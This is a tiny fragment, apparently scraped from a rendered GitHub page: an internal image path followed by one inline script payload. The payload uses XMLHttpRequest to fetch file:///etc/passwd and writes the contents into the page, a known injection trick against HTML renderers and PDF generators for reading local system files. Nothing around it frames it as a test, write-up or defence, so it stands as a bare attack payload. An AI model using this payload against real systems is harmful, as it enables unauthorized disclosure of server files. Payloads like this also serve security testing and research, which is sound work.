 `<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open('GET','file:///etc/passwd');x.send();</script>`